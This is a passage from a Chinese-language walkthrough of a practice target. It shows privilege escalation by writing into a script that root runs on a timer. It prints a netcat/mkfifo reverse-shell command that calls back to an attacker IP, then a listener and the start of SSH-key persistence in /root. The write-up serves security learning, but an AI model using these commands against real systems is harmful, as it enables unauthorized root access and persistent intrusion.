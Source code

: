通过监控进程我们看到UID=0的用户（也就是root用户）在周期性调用 `.trash_old`这个脚本，因此我们可以往该脚本里写入脚本，从而达到借权提升用户权限的目的

使用ssh工具连接到靶机，编辑`.trash_old`文件，插入反弹shell代码

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.1.128 2222 > /tmp/f `

这个命令是创建一个基于FIFO（先入先出文件，又称为"命名管道"）和`netcat`(nc)的反向shell。

1. `rm /tmp/f`: 这会尝试删除 `/tmp/f` 文件（如果存在的话）

2. `mkfifo /tmp/f`：这会创建一个命名的管道文件 `/tmp/f`。FIFO，也被称为命名管道，提供了一种在不相关的进程之间进行通信的机制

3. `cat /tmp/f | /bin/sh -i 2>&1`：这会从管道 `/tmp/f` 中读取数据并将其发送到交互式shell `/bin/sh`。然后，shell的输出和错误将被重定向并返回到管道中

4. `nc 192.168.1.128 2222`: 这会使用 `netcat (nc)` 命令创建一个到 `192.168.1.128` IP地址上的 `2222` 端口的网络连接。这通常是控制端（攻击者）的机器

5. `> /tmp/f`：所有的 `nc` 命令的输出和shell的交互都会重定向回 `fifo` 文件，然后 pipe 到 `cat` 中

在这个命令的整个生命周期中，`cat` 从FIFO读取数据并发送给`sh`进程，然后 `sh`进程的输出被发送给 `nc`，最后 `nc` 的输出又被发送回FIFO，形成一个循环。由于这个循环的存在，即使在网络连接中断的情况下，反向shell也能继续运行。只要网络连接重新建立，控制端就能重新获取对反向shell的控制

![36](https://pic.imgdb.cn/item/6649be16d9c307b7e91c4835.png)

在终端启用netcat命令监听2222端口，获取shell，得到了root权限！:tada:

*由于某些原因，导致靶机IP发生一些变化`192.168.1.21 > 192.168.1.135`*

`nc -vlnp 2222`

这样的连接方式是极其被动的，不能主动连接，且如果脚本由于某种原因停止运行，那么我们将连接不上目标，因此我们接下来需要进行权限维持

![37](https://pic.imgdb.cn/item/6649d894d9c307b7e93e182b.png)

得到通关flag

![38](https://pic.imgdb.cn/item/6649dbc8d9c307b7e94279b4.png)

## 权限维持

使用kali生成一对rsa密钥

` ssh-keygen -t rsa`

![39](https://pic.imgdb.cn/item/6649dfa2d9c307b7e947dfb9.png)

启动http服务，把公钥传输到服务器上

` wget http://192.168.1.128:8888/id_rsa.pub`

![40](https://pic.imgdb.cn/item/6649e156d9c307b7e949a1fa.png)

在root家目录下创建 `.ssh`目录

`mkdir .ssh`

创建 `authorized_keys`文件

 `touch /root/.ssh/authorized_keys`
